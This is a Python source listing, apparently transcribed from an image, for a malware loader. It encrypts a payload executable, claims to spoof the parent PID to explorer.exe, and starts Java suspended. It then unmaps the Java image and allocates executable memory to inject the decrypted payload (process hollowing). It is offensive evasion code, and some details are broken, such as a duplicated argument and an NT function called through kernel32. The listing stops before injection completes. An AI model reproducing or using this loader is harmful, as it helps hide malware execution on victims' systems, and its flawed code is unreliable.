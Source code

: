 ```python
def encrypt_payload(payload):
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    return base64.b64encode(cipher.encrypt(pad(payload, AES.block_size)))

# Decrypt the payload in-memory
def decrypt_payload(encrypted_payload):
    encrypted_payload = base64.b64decode(encrypted_payload)
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    return unpad(cipher.decrypt(encrypted_payload), AES.block_size)

# Load & encrypt payload
with open("C:\\Users\\Public\\payload.exe", "rb") as f:
    raw_payload = f.read()

encrypted_payload = encrypt_payload(raw_payload)
print("[*] Payload encrypted.")

# Find Explorer.exe PID for PPID Spoofing
def get_explorer_pid():
    output = subprocess.check_output("tasklist /FI \"IMAGENAME eq explorer.exe\" /FO CSV", shell=True).decode()
    return int(output.split("\n")[1].split(",")[1].replace('"', ''))

explorer_pid = get_explorer_pid()
print(f"[*] Found Explorer.exe PID: {explorer_pid}")

# Start Javaw.exe with PPID Spoofing (Explorer.exe)
startup_info = subprocess.STARTUPINFO()
startup_info.dwFlags |= subprocess.STARTF_USESHOWWINDOW
pi = subprocess.Popen(
    JAVA_PATH,
    startupinfo=startup_info,
    creationflags=CREATE_SUSPENDED,
    creationflags=subprocess.CREATE_NEW_CONSOLE,
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

print(f"[*] Started Java with PID: {pi.pid}, PPID Spoofed to Explorer")

# Open Process
process_handle = kernel32.OpenProcess(0x1F0FFF, False, pi.pid)

# Read PEB & Image Base Address
peb_address = ctypes.create_string_buffer(8)
kernel32.NtQueryInformationProcess(process_handle, 0, ctypes.byref(peb_address), 8, None)
peb_address = struct.unpack("<Q", peb_address.raw)[0]

image_base_address = ctypes.create_string_buffer(8)
kernel32.ReadProcessMemory(process_handle, peb_address + 0x10, ctypes.byref(image_base_address), 8, None)
image_base = struct.unpack("<Q", image_base_address.raw)[0]

print(f"[*] Original Java Image Base: 0x{image_base:X}")

# Unmap Java Memory & Allocate for Payload
ntdll.NtUnmapViewOfSection(process_handle, ctypes.c_void_p(image_base))
new_image_base = kernel32.VirtualAllocEx(process_handle, ctypes.c_void_p(image_base), len(raw_payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)

# Decrypt and Inject Payload
decrypted_payload = decrypt_payload(encrypted_payload)
```